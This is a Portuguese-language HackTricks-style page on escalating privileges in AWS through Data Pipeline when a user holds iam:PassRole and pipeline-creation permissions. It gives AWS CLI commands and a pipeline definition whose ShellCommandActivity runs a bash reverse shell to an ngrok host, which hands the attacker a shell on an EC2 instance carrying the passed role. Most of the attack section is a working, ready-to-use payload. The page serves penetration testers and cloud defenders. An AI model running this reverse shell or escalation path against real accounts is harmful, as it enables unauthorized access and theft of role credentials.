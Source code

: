 # AWS - Datapipeline Privesc

{{#include ../../../banners/hacktricks-training.md}}

## datapipeline

Para mais informações sobre datapipeline, consulte:

{{#ref}}
../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md
{{#endref}}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Usuários com essas **permissões podem escalar privilégios criando um Data Pipeline** para executar comandos arbitrários usando as **permissões do papel atribuído:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
Após a criação do pipeline, o atacante atualiza sua definição para ditar ações específicas ou criações de recursos:
```json
{
"objects": [
{
"id": "CreateDirectory",
"type": "ShellCommandActivity",
"command": "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn": { "ref": "instance" }
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id": "instance",
"name": "instance",
"type": "Ec2Resource",
"actionOnTaskFailure": "terminate",
"actionOnResourceFailure": "retryAll",
"maximumRetries": "1",
"instanceType": "t2.micro",
"securityGroups": ["default"],
"role": "assumable_datapipeline",
"resourceRole": "assumable_ec2_profile_instance"
}
]
}
```
> [!NOTE]
> Note que a **função** nas **linhas 14, 15 e 27** precisa ser uma função **assumível por datapipeline.amazonaws.com** e a função na **linha 28** precisa ser uma **função assumível por ec2.amazonaws.com com um perfil de instância EC2**.
>
> Além disso, a instância EC2 só terá acesso à função assumível pela instância EC2 (então você só pode roubar essa).
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
O **arquivo de definição do pipeline, elaborado pelo atacante, inclui diretivas para executar comandos** ou criar recursos via a API da AWS, aproveitando as permissões de função do Data Pipeline para potencialmente ganhar privilégios adicionais.

**Impacto Potencial:** Privesc direto para a função de serviço ec2 especificada.

## Referências

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{{#include ../../../banners/hacktricks-training.md}}
